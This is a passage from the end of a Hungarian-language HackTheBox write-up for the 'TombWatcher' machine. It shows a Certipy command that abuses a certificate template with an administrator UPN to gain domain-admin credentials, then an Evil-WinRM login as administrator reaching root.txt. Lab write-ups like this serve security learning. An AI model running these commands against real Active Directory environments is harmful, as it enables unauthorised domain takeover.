 ## Certipy admin cert szerzés (régi pip-es):
```
python3 entry.py req -dc-ip 10.10.11.72 -ca tombwatcher-CA-1 -u cert_admin@tombwatcher.htb -p 'NoSecHere' -template WebServer -upn administrator@tombwatcher.htb -application-policies 1.3.6.1.5.5.7.3.2
```

## Evil-WinRM shell DA-ként
```
evil-winrm -i 10.10.11.72 -u administrator -p NoSecHere

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/13/2025   7:13 AM             34 root.txt

```

---

## Ez volt a TombWatcher gép! Ha végigtoltad, instant respect! 👾

